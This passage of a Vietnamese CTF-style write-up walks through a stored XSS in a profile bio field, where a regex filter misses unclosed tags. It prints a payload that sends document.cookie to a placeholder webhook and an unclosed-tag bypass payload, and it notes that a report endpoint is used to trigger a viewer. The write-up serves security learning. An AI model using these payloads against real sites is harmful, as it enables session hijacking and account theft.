 Như vậy, khi đó hoàn toàn mình viết đoạn payload để lấy cookie. 

Với payload là, `<img src=x onerror=fetch("<url_webhook>?c="+document.cookie)>`

![image](https://hackmd.io/_uploads/rk9YayYVex.png)

Sau khi đăng nhập thì mình sinh được 1 id của user, dùng id đó để gọi tới endpoint `report_profile/<reported_user_id>`

![image](https://hackmd.io/_uploads/SyDflgFEgx.png)

Ngoài ra, trường bio khi dùng regex để có thể filter chặn các tag nhưng không hoàn toàn. 

![image](https://hackmd.io/_uploads/BJXjmgFNgg.png)

Nhưng nếu thẻ mà không đóng tag thì nó hoàn toàn không match nên có thể bypass.

![image](https://hackmd.io/_uploads/HknTmgKVgx.png)

Vậy mình inject vào trường Bio với payload là `<img src=x onerror="alert(origin)"`

![image](https://hackmd.io/_uploads/HJagExKVle.png)

Và khi mình truy cập vào trong dạng xem các profile. 

![image](https://hackmd.io/_uploads/H1Q7NeK4gg.png)

Hoàn toàn bị XSS. 

Do vậy mình hoàn toàn có thể tiêm với payload tương tự vào trường Bio.

![image](https://hackmd.io/_uploads/B10DdgK4gx.png)

![image](https://hackmd.io/_uploads/Hy9ddgK4ll.png)
